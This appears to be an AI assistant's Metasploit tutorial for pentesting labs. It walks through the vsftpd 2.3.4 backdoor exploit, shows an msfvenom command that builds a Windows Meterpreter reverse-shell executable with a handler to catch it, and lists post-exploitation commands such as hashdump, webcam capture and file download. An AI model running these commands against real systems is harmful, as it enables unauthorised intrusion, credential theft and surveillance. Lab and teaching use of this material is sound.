 Great — let’s focus purely on **Metasploit** in full detail now — clean, organized, and practical. Here’s your complete Metasploit theory + command guide:

---

# 📖 Metasploit Framework — Complete Guide

---

## 🔍 What is Metasploit?  
**Metasploit Framework** is a powerful, open-source penetration testing tool widely used for:
- **Finding vulnerabilities**
- **Exploiting systems**
- **Creating and delivering payloads**
- **Post-exploitation tasks**
- **Security research and learning**

It helps ethical hackers and security researchers test the security of systems and networks.

---

## 🛠️ Components of Metasploit  
| Component         | Description                                                  |
|:------------------|:--------------------------------------------------------------|
| **msfconsole**      | The main command-line interface of Metasploit |
| **msfvenom**         | A tool to generate custom payloads |
| **Exploits**         | Modules to exploit system vulnerabilities |
| **Payloads**         | Code executed on the target system after successful exploitation |
| **Auxiliary Modules**| Tools for scanning, fuzzing, sniffing, and DoS |
| **Post Modules**     | Actions executed after exploiting a system (gather info, maintain access) |
| **Meterpreter**      | An advanced post-exploitation shell |

---

## 🎛️ Metasploit Workflow  

1. **Start Database & Metasploit**
   ```bash
   sudo systemctl start postgresql
   msfconsole
   ```

2. **Search for a Vulnerability**
   ```bash
   search vsftpd
   ```

3. **Select an Exploit**
   ```bash
   use exploit/unix/ftp/vsftpd_234_backdoor
   ```

4. **Show Required Options**
   ```bash
   show options
   ```

5. **Set Target Host**
   ```bash
   set RHOST 192.168.1.10
   set RPORT 21
   ```

6. **Select and Set a Payload**
   ```bash
   set payload cmd/unix/interact
   ```

7. **Run the Exploit**
   ```bash
   exploit
   ```

---

## 🎯 Payloads in Metasploit  

| Payload Type                 | Description                        |
|:-----------------------------|:------------------------------------|
| `windows/meterpreter/reverse_tcp` | Creates a Meterpreter session back to the attacker's machine |
| `linux/x86/meterpreter/reverse_tcp` | Reverse shell payload for Linux systems |
| `android/meterpreter/reverse_tcp` | Reverse shell for Android devices |
| `cmd/unix/reverse` | Unix reverse shell |

### 📦 Example — Generate a Payload (with `msfvenom`)
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f exe > shell.exe
```
- `-p` → Payload type  
- `LHOST` → Local (attacker’s) IP  
- `LPORT` → Listening port  
- `-f` → Format (exe, elf, apk)

---

## 🎮 Using Multi/Handler to Catch a Reverse Shell  
```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.1.10
set LPORT 4444
exploit
```

---

## 📑 Post-Exploitation (Meterpreter)

Once the target is compromised:

| Command               | Description                    |
|:----------------------|:--------------------------------|
| `sysinfo`               | Show system info               |
| `getuid`                | Show current user              |
| `shell`                 | Drop into a command shell      |
| `download file`         | Download files from target     |
| `upload file`           | Upload files to target         |
| `screenshot`            | Take a screenshot of the target |
| `webcam_snap`           | Capture webcam image           |
| `hashdump`              | Dump password hashes           |

---

## 📚 Common Metasploit Commands  

| Command                    | Purpose                    |
|:----------------------------|:----------------------------|
| `help`                       | Show all commands |
| `search <keyword>`            | Search for modules |
| `use <module>`                | Load a module |
| `show payloads`               | List compatible payloads |
| `show options`                | Show module options |
| `set <option> <value>`        | Set a required option |
| `exploit` or `run`            | Launch exploit |

---

## 📊 Example Attack Scenario (FTP Backdoor Exploit)

**Steps:**
1. Start Metasploit  
   `msfconsole`
2. Search for exploit  
   `search vsftpd`
3. Use exploit  
   `use exploit/unix/ftp/vsftpd_234_backdoor`
4. Set target IP  
   `set RHOST 192.168.1.10`
5. Run  
   `exploit`

**If successful → shell access granted.**

---

## 📝 Summary Table  

| Step                     | Command                      |
|:--------------------------|:------------------------------|
| Start services              | `sudo systemctl start postgresql` |
| Launch Metasploit            | `msfconsole` |
| Search exploit              | `search <keyword>` |
| Use exploit                 | `use <exploit-path>` |
| Set options                 | `set RHOST <target>` etc. |
| Show options                | `show options` |
| Set payload                 | `set payload <payload>` |
| Run exploit                 | `exploit` |
| Open Meterpreter session    | `session -i <ID>` |
| Run post-exploitation tools | `sysinfo`, `screenshot` etc. |

---

## 🎯 Why Metasploit is So Important  
✅ Largest exploit database  
✅ Versatile — works on Linux, Windows, Android  
✅ Supports custom payloads and modules  
✅ Great for **ethical hacking**, **pentesting labs**, **CTFs**

---

If you’d like — I can also create:
- 📄 A **Markdown cheat sheet**
- 📝 A **PDF handbook**
- 🖥️ A **Metasploit lab guide** for practice  

Want me to build one for you? 🚀